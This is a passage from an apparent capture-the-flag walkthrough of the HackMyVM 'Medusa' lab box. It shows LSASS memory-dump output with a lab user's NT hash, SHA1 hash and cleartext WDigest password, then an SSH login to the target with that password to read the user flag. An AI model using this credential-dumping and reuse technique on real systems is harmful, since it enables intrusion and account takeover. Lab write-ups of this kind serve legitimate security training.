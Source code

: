 ```bash
        == MSV ==
                Username: spectre
                Domain: Medusa-PC
                LM: NA
                NT: 6ec779920e220c163f33101085eff0b9
                SHA1: 4d3341113c66127df14de8cc6ac7b4ebf52d74b5
                DPAPI: NA
        == WDIGEST [ce835]==
                username spectre
                domainname Medusa-PC
                password 5p3ctr3_p0is0n_xX
                password (hex)35007000330063007400720033005f00700030006900730030006e005f0078005800000000000000
        == Kerberos ==
                Username: spectre
                Domain: Medusa-PC
                Password: 5p3ctr3_p0is0n_xX
                password (hex)35007000330063007400720033005f00700030006900730030006e005f0078005800000000000000
        == WDIGEST [ce835]==
                username spectre
                domainname Medusa-PC
                password 5p3ctr3_p0is0n_xX
                password (hex)35007000330063007400720033005f00700030006900730030006e005f0078005800000000000000
        == TSPKG [ce835]==
                username spectre
                domainname Medusa-PC
                password 5p3ctr3_p0is0n_xX
                password (hex)35007000330063007400720033005f00700030006900730030006e005f0078005800000000000000
<SNIP>
```
From the above output, We can confirm that WDigest  was activated on the Windows machine LSASS's memory was dumped. This allows us to see the clear text password of the user spectre. This user is also a local user on our target, so let's use these credentials to log in and read the flag.
```bash
┌──(pentester㉿kali)-[~/Desktop/HackMyVM/Medusa/Misc Files]
└─$ssh spectre@10.0.2.6
spectre@10.0.2.6's password: 
Linux medusa 5.10.0-20-amd64 #1 SMP Debian 5.10.158-2 (2022-12-13) x86_64
<SNIP>

permitted by applicable law.
Last login: Sat Jan 21 14:57:30 2023 from 192.168.1.13
spectre@medusa:~$ ls
user.txt
```

## Post Exploitation
